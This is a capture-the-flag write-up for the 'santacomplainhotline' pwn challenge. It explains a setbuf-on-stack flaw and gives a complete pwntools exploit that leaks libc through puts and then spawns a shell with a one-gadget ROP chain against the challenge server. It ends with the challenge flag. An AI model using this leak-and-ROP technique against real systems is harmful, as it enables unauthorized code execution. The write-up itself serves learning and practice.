

# PROTECTIONS
```shell
$ checksec ./chall
[*] '/home/user/Desktop/x-mas_ctf/santacomplainhotline/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# ANALYSIS



So the program basically go through a loop and every time takes 512 bytes input, saves it in a buffer large enough and then write it to "/dev/null". It stops when we submit the string "done"

### VULNERABILITY
The vulnerability is in the "setbuf" usage. Essentially the function turns on the stream bufferization (see "man setbuf").
The program pass a stack variable address (&var_410) as user buffer for that. So essentially every user input will be write onto the stack and than redirect to "/dev/null".
We can inject a Rop-chain and than submit "done" to make the main return and trigger our exploit.

# EXPLOITATION
### MEMORY LEAK
Since I'm gonna use a libc one-gadget, a libc memory leak is needed to bypass ASLR.
We can create a first ROP that calls `puts` passing the puts itself as address to leak since at that time it will be already resolverd by the loader.
Than put the `main` address in order to re-enter the main fucntion and inject a second ROP


### GET SHELL
Now that we have a libc leak we can simply inject a second ROP that calls a "one gadget" in the given libc:

```shell
$ one_gadget libc-2.27.so
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

# EXPLOIT
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("chall_patched")
libc = ELF("libc-2.27.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

POP_RDI = 0x4008f3
PUTS_PLT = 0x400600
PUTS_GOT = 0x601018
ONE_GADGET = 0x10a2fc
MAIN = 0x400767

gs = ''' 
continue
'''

def conn():
    if args.LOCAL:
        r = gdb.debug("./chall_patched", gdbscript=gs)
    else:
        r = remote("challs.htsp.ro", 8001)
    return r


def main():
    r = conn()

    PAYLOAD = b'A'*16
    PAYLOAD += p64(POP_RDI)
    PAYLOAD += p64(PUTS_GOT)
    PAYLOAD += p64(PUTS_PLT)
    PAYLOAD += p64(MAIN)

    r.sendafter("/dev/null", b'\n\n')
    r.sendline(PAYLOAD)
    r.sendline("done")
    r.recvuntil("\n")
    leak = u64(r.recv(6).ljust(8, b'\x00'))
    libc.address = leak - libc.symbols['puts']

    print("leaked:    ", hex(leak))
    print("libc base: ", hex(libc.address))

    r.sendafter("/dev/null", b'\n\n')
    PAYLOAD = b'A'*16
    PAYLOAD += p64(ONE_GADGET + libc.address)
    r.sendline(PAYLOAD)
    r.sendline("done")
    r.interactive() 


if __name__ == "__main__":
    main()

```

# FLAG
`X-MAS{H07l1n3_Buff3r5_t00_5m4ll}`